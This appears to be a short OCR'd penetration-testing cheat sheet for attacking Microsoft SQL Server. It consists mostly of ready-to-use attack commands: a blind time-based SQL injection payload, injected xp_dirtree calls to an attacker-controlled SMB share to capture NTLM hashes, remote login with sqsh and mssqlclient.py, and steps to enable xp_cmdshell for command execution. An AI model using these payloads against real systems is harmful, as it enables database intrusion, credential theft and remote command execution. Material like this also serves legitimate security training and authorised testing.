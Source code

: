 Blind based MSSQL injection through web app. will delay web page for 5 seconds if user is sa

```
' if (select user) != 'sa' waitfor delay '0:0:5'--
```

run responder and attemp to capture hash.

```
'+EXEC+master.sys.xp_dirtree+'\\AttackerIP\share--
```

Login it to mssql remotely

```
sqsh -S $ip -U sa -P <PASSWORD>
```

alternatively use

```
mssqlclient.py user:password@$ip -windows-auth
```

or without --windows-auth

```
mssqlclient.py user:password@$ip
```

Check for users with SA level permissions (users that can enable xp\_cmdshell)

```
select IS_SRVROLEMEMBER ('sysadmin')
```

Run after spinning up an smbserver to capture hash

```
exec xp_dirtree '\\<attacker ip>\<share name>\',1,1
```

**Check if xp\_cmdshell is enabled**

```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

**Show Advanced Options**

```
sp_configure 'show advanced options', '1'
```

```
RECONFIGURE
```

**Enable xp\_cmdshell**

```
sp_configure 'xp_cmdshell', '1'
```

```
RECONFIGURE
```
